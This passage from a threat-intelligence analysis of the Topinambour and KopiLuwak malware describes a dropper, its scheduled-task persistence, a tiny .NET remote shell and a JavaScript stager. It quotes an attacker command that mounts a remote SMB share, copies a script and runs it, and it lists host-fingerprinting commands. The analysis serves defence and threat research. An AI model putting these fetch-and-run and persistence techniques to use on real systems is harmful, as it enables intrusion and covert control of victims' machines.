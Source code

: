 
unpack_p
Drops payload to %LOCALAPPDATA%/VirtualStore/certcheck.exe. The “p” in the function name and corresponding resource in the dropper stands for “payload”


make_some_noise
Gains persistence for payload with a scheduled task that starts every 30 minutes


unpack_o
Drops the original application that the dropper tries to mimic (such as psiphon3) to %TEMP%/activator.exe and runs it. Here “o” in the function name and corresponding resource in the dropper stands for “original”



The Topinambour authors decided to name the remote shell persistence function “make_some_noise()”
Dropped tiny .NET remote shell
The tiny dropped application gets Windows shell commands from the C2 and silently executes them.
The Topinambour tiny .NET shell first tries to get commands from an external IP, which looks like a LAN, and then continues with possibly infected LAN IPs 
The first DWORD (four bytes) received after a TCP request to the C2 is the data size for the following communication. Then the data contained in the next packets will be the Windows shell command to silently execute the application using “cmd.exe /c”. And that’s it – straightforward, simple and useful.
KopiLuwak dropper
This is where the notorious KopiLuwak comes into play. The .NET remote shell silently downloads scripts from the C2 – from the opened SMB share on a remote CELL-C VPS in South Africa to be precise. “Net use” and “copy” Windows shell commands are enough to fulfil the task.
cmd.exe /c net use \\197.168.0.247\c$ <user_pass_here> /user:administrator & copy /y \\197.168.0.247\c$\users\public\documents\i.js $documents\j.js & $documents\j.js
As a result, the victim is infected with a KopiLuwak obfuscated JavaScript.
Deobfuscated KopiLuwak dropper that puts the RC4 decryption key into the scheduler task for next-stager persistence
Its functions are described in the table below:



Script function
Features


Create scheduler task
Creates a task with the name ProactiveScan, description “NTFS Volume Health Scan”, which runs C:\Users\<user_name_here>\AppData\Roaming\Microsoft\Chkdsk.js with the parameters “-scan Kdw6gG7cpOSZsBeH”, where the parameter is the RC4 decryption key


Fingerprint host
Saves a set of commands such as systeminfo, net view, tasklist /v, gpresult /z, dir \x22%programfiles%\x5cKaspersky Lab\x22, tracert www.google.com to
%appdata%\Microsoft\x5ct235.dat


Drop next JavaScript
Drops C:\Users\<user_name_here>\AppData\Roaming\Microsoft\Chkdsk.js


